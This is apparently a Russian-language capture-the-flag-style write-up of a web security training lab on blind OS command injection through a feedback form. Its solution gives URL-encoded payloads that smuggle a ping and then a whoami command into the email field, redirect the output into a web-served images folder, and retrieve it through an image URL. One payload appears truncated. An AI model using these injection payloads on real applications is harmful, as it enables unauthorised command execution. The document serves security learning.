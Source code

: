 В этой лабораторной работе обнаружена уязвимость слепого внедрения команд ОС в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Вывод команды не возвращается в ответе. Однако вы можете использовать перенаправление вывода для захвата вывода команды. Существует папка с возможностью записи по адресу:

`/var/www/images/`

Приложение обслуживает изображения для каталога продуктов из этого местоположения. Вы можете перенаправить вывод из введенной команды в файл в этой папке, а затем использовать URL загрузки изображения для извлечения содержимого файла.

Чтобы решить лабораторную работу, выполните `whoami`команду и получите результат.

## Дано

-  Уязвимость слепого внедрения команд ОС в функцию обратной связи.
- Существует папка с возможностью записи по адресу: `/var/www/images/`

## Задача

- выполните `whoami`команду и получить результат.

# Решение

1. Поиск обратной связи `https://0af30046031f061e814f1cc8003b005b.web-security-academy.net/feedback`
2. Тестирование параметров в запросе а именно ищем по пингу где можно сделать инъекцию
```
%3b+ping+-c+10+127.0.0.1+%26
```
Нашли в почте

3. Теперь формируем инъекцию
```
%3b+whoami>/var/www/images/whoami.txt%2
```

4. Нашли в просмотре картинки товара параметр который связан с /var/www/images
```
https://0af30046031f061e814f1cc8003b005b.web-security-academy.net/image?filename=whoami.txt
```

